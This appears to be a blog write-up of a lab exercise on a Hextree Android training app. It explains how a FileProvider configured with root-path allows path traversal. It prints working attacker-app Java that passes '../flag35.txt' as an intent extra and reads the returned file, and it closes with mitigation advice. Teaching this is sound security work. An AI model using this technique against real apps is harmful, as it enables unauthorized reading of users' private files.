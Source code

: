 ```yaml
---
layout: post
title: Insecure root-path FileProvider Config Leading to Path Traversal Vulnerability
date: 2025-03-14 22:34 +0200
Categories: Mobile
tags: Android Mobile
---
```

Hello, hackers! In this article, I will explain how an insecure `root-path` FileProvider configuration can lead to a path traversal vulnerability, allowing an attacker to access unauthorized files.

Let’s dive into this exciting vulnerability!
## 1. Analyzing the AndroidManifest.xml File
While analyzing the `AndroidManifest.xml` file, I found an interesting `FileProvider` configuration:
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*oUNgkgACiD_BJw49hgkVsQ.png)

With this meta-data code:
```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path
        name="root_files"
        path="/"/>
</paths>
```
This configuration means that the `FileProvider⁣` allows access to any file in the entire filesystem using `getUriForFile()`.
## 2. Identifying the Vulnerable Activity
Next, I found an activity that uses this `FileProvider`. Let’s analyze the code:
```java
 @Override 
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

    void prepareFlag(Context context, String str) {
        if (str.contains("flag35.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("flag35");
            logHelper.addTag("root-provider");
            Utils.writeFile2(this, "flag35.txt", logHelper.appendLog(FLAG));
        }
    }
```
### Key Findings
1. The `FileProvider` allows handling arbitrary paths.
2. The `addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);` grants read/write access.
3. The `filename` parameter is user-controlled, making it vulnerable to path traversal.

## 3. Exploiting the Vulnerability
### Step 1: Inspect Incoming Intent Data
To analyze the incoming intent data, I wrote the following code:
```java
 @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.activities.Flag35Activity");
        startActivityForResult(intent, 42);

    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        Utils.showDialog(this, data);
        super.onActivityResult(requestCode, resultCode, data);

    }
```
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*5Q52TllzxfQReL0q4iEN9g.png)

The displayed data indicates that the activity accesses a default file path ended by `secert.txt`. Can we manipulate this to retrieve `flag35.txt`?

### Step 2: Exploiting Path Traversal
Since the `filename` parameter is user-controlled, I attempted to inject `"./flag35.txt"`:
```java
intent.putExtra("filename", "./flag35.txt");
```
and I get this Data URI:
![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*knmnSxx9X11R_c20tmIB1A.png)

so now I used ../ to traverse directories for get one rime back:
```java
intent.putExtra("filename", "../flag35.txt");
```
### Step 3: Final Exploitation Code
The final exploit reads the contents of `flag35.txt`:
```java
@Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.putExtra("filename", "../flag35.txt");
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.activities.Flag35Activity");
        startActivityForResult(intent, 42);

    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        Log.i("Data", "Uri: "+data.getData());
        try {
            InputStream inputStream = getContentResolver().openInputStream(data.getData());
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
            String line;
            while ((line = reader.readLine()) != null){
                Log.d("Kero", " [*] "+line);
            }
        }catch (IOException e) {}
        Utils.showDialog(this, data);
        super.onActivityResult(requestCode, resultCode, data);

    }
```
### Step 4: Retrieving the Flag
The flag is now visible in `logcat` :
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*DwzICIvTYJUDFG80ZPmnaA.png)

## Mitigation
To prevent this vulnerability:
- Avoid using `root-path` in `FileProvider`. Instead, define strict subdirectories.
- Sanitize and validate user input.
- Apply strict permissions to prevent unauthorized access.

## Conclusion
This write-up demonstrated how an insecure `root-path` FileProvider configuration can lead to a path traversal vulnerability, allowing an attacker to access arbitrary files. By understanding and mitigating such misconfigurations, we can build more secure Android applications.

**THANKS FOR READING ❤️**
